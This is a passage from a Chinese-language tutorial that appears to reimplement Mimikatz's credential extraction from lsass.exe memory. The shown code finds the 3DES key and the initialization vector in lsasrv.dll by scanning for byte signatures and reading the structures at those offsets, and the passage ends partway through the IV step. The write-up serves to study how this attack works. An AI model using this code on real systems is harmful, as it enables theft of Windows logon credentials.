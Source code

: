 这里得到了 lea 指令中的偏移量 相对`lsasrv.dll`模块基址的偏移值`keySigOffset + sizeof key3DESSig`，然后读取出该偏移处的4字节数据，得到`desOffset`，即为`h3DesKey`相对下一条指令地址的偏移。

```cpp
// 从lsass进程的内存位置lsasrvBaseAddress + keySigOffset + sizeof key3DESSig + 4 + desOffset 上读取8字节的数据
// .data:0000000180056A8C ?? ?? ?? ?? ?? ?? ?? ?? ?h3DesKey@@3PEAXEA dq ?
// 所读取的8字节的数据是一个指向结构体 KIWI_BCRYPT_HANDLE_KEY 的指针
ReadFromLsass(lsasrvBaseAddress + keySigOffset + sizeof key3DESSig + 4 + desOffset, &keyPointer, sizeof keyPointer);
wprintf(L"keyPointer = 0x%p\n", keyPointer);

// 从lsass进程的内存位置 keyPointer 读取出结构题的实际内容
ReadFromLsass(keyPointer, &h3DesKey, sizeof(KIWI_BCRYPT_HANDLE_KEY));
```

根据`desOffset`的值，计算出`h3DesKey`在`lsass.exe`内存中的实际地址，然后读取出该地址处的8字节数据，得到一个指向结构体`KIWI_BCRYPT_HANDLE_KEY`的指针，最后从该指针处读取出实际的密钥内容：

```cpp
// 读取 KIWI_BCRYPT_HANDLE_KEY 结构体中类型为 PKIWI_BCRYPT_KEY81 的成员变量指针所指向的 KIWI_BCRYPT_KEY81 结构体
// AES DES 密钥均使用 KIWI_BCRYPT_KEY81 结构体包裹
ReadFromLsass(h3DesKey.key, &extracted3DesKey, sizeof(KIWI_BCRYPT_KEY81));

// KIWI_BCRYPT_KEY81 中 hardkey.data包含密钥字节内容， hardkey.cbSecret包含密钥的长度
memcpy(g_sekurlsa_3DESKey, extracted3DesKey.hardkey.data, extracted3DesKey.hardkey.cbSecret);

wprintf(L"3Des Key Located (len %d): \n", extracted3DesKey.hardkey.cbSecret);
HexdumpBytesPacked(extracted3DesKey.hardkey.data, extracted3DesKey.hardkey.cbSecret);
```

这里读取了`KIWI_BCRYPT_HANDLE_KEY`结构体中的`key`成员变量指针所指向的`KIWI_BCRYPT_KEY81`结构体，获取其中的密钥字节内容和长度，并将密钥内容存储到全局变量`g_sekurlsa_3DESKey`中。


### 2.3 获取`InitializationVector`
获取`InitializationVector`的逻辑、步骤与获取`hAesKey`、`h3DesKey`也比较类似，除偏移量不同外，主要不同点在于`InitializationVector`是一个16字节的数组，而不是一个指针，因此后续也不需要再读取指针指向的结构体。

定位与`InitializationVector`相关的 lea 指令：

![alt text](images/InitializationVector.png)

同样取 lea 指令和前几条指令的字节序列用于搜索 lea 指令相对`lsasrv.dll`模块基址的偏移：

```cpp
UCHAR keyIVSig[] = { 0x78, 0x4D,
					0x44, 0x8D, 0x4E, 0xF2,
					0x44, 0x8B, 0xC6,
					0x48, 0x8D, 0x15 };

// 搜索IV特征码
DWORD ivSigOffset = SearchPattern(lsasrvBaseAddress, keyIVSig, sizeof keyIVSig);
if (ivSigOffset == 0) return;

// 读取4字节偏移
ReadFromLsass(lsasrvBaseAddress + ivSigOffset + sizeof keyIVSig, &ivOffset, sizeof ivOffset);
```
